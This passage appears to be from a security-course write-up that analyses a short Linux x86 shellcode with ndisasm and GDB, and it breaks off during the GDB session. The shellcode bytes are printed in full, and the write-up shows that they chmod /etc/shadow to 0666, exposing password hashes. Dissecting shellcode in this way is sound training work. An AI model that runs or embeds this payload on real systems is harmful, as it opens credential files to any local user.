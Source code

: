 ```term
) =  -1;
ERROR  exit (
     int status = 4288522;
```

##### Ndisasm

As seen on the shown text, Libemu reports that the chmod syscall is being initialized! Let's take a closer look to the code with ndisasm.

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect1$ echo -ne 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - 
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect1$
```

Really interesting, according to the man page of chmod, ECX should hold the privileges for the file that will be chmodded. As seen, dword "0x1b6" is being pushed into ECX, which 
in octal means 666! Even more so, we can see EAX performing the syscall in hex, as 0xf in decimal is actually 15, value for the chmod syscall.
Regarding the file itself, let's have a closer look with GDB.

##### GDB

We can easily see the value of the file being altered when the execution is parsed into EAX.

Let's save this into a C file and compile it:

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect1$ gcc dissect_1.c -o dissect_1 -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect1$ gdb -q ./dissect_1
```

```term
(gdb) break main
Breakpoint 1 at 0x11b8
(gdb) run
Starting program: /home/whitecr0wz/assembly/assignments/Assignment_5/dissect1/dissect_1 

Breakpoint 1, 0x004011b8 in main ()
(gdb) disassemble
Dump of assembler code for function main:
   0x004011a9 <+0>:     lea    ecx,[esp+0x4]
   0x004011ad <+4>:     and    esp,0xfffffff0
   0x004011b0 <+7>:     push   DWORD PTR [ecx-0x4]
   0x004011b3 <+10>:    push   ebp
```